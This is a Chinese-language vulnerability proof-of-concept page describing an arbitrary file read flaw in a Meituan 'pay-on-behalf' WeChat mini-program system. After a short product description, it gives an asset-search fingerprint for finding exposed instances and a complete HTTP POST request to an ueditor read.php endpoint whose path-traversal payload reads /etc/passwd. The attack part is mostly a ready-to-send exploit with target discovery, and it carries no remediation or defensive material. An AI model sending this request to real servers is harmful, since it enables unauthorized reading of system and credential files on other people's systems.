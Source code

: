 # 美团代付微信小程序系统read存在任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.84);">美团代付微信小程序系统是美团点评旗下的一款基于微信小程序技术开发的应用程序功能之一，它允许用户方便快捷地请求他人为自己支付订单费用。随着移动支付的普及和微信小程序的广泛应用，美团作为中国领先的本地生活服务平台，推出了代付功能，以满足用户多样化的支付重求。通过微信小程序，用户可以轻松实现代付操作，无需跳转到其他应用或网页，提高了支付的便捷性和效率。前台支持购物车，个人中心，多选项等功能 ，后台支持推广，代理管理，菜品管理，积分明细，订单管理，模板，支付通道管理等功能。美团代付微信小程序系统read存在任意文件读取漏洞</font>

# <font style="color:rgba(0, 0, 0, 0.84);">二、影响版本</font>
+ 美团代付微信小程序系统 

# 三、资产测绘
```plain
body="/h5/static/js/chunk-vendors.js"
```

![1731078960863-27f91f64-e014-42be-b150-31c628bcc3fc.png](./img/cXUMgsA9n5GhpcIa/1731078960863-27f91f64-e014-42be-b150-31c628bcc3fc-651366.png)

# 四、漏洞复现
```plain
POST /static/ueditor22/_test/tools/br/read.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
 
name=../../../../../../../../../etc/passwd
```

![1731078883672-59e6b35a-2fe2-4f03-a02e-7dd31ca97c13.png](./img/cXUMgsA9n5GhpcIa/1731078883672-59e6b35a-2fe2-4f03-a02e-7dd31ca97c13-666911.png)



> 更新: 2024-11-27 10:00:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ymuepw56n41ianbg>